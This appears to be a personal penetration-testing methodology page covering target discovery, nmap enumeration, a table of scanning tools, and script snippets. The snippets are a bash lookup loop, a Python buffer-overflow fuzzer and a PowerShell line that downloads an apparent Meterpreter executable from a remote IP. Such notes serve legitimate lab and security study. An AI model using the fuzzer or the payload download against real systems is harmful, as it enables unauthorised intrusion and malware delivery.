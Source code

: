 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:
	- arp-scan --localnet
    - ping sweep - using nmap -sn > insert subnet here
    - passive listening using Wireshark/tcpdump

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information can be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow.  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell*** 
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  




        
